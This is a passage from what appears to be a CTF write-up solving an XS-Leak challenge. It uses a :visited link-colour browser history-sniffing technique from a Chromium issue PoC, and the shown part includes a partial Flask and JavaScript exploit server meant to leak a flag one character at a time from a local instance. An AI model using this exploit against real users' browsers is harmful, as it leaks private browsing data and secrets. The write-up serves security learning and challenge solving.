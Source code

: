 ```js
    var oldTickCount = tickCount;
    tickCount = 0;
    return oldTickCount;
}
```
I've forked the challenged ~~because I am lazy~~ so it works without authentication, testing the [author's PoC ](https://issues.chromium.org/action/issues/40091173/attachments/53139586?download=false)showed some promising results when testing locally, with a local flag `flag{123123}`, when testing `http://127.0.0.1:21111/search?q=flag`

![image](https://github.com/ixSly/CTFs/assets/32583633/9b7c4a97-9f2f-4fd8-b19b-7a709a818536)

# The Solution
This technique was used by [TeamItaly](https://github.com/TeamItaly/TeamItalyCTF-2023/tree/master/leakynotev3/writeup) in a challenge called `leakynote` where the automated the solution, a successful one should stably leak the flag char by char.  I was too late to the CTF so unfortunately wasn't able to solve it on time. 
Finally, I came up with the following automated solution

```python
import os
from flask import Flask, render_template_string, request

app = Flask(__name__)
URL = "http://127.0.0.1:21111/"
CHARSET = "1234567890" # for local testing 
#CHARSET = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
ex_html = '''
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>XS-Leak Test</title>
    <style type="text/css">
        /* Set it up so the target link element has different colors when pointing to a
           visited vs unvisited URL. */
        #target {
            color: white;
            background-color: white;
            outline-color: white;
        }
        #target:visited {
            color: #feffff;
            background-color: #fffeff;
            outline-color: #fffffe;
        }
    </style>
</head>
<body>
<script>
    async function isVisited(url) {
        let pocw = window.open(`/poc?url=${encodeURIComponent(url)}`, 'poc');
        pocw.focus();
    }

    // Extract the fragment identifier from the URL
    let hash = window.location.hash.substring(1) || "flag{g68r|a";
    let [guess, current_guess] = hash.split('|');
    let base_url = '{{CHALLENGE_URL}}search?q=flag{'; //change based on flag format
    let charset = '{{ CHARSET }}'.split('');

```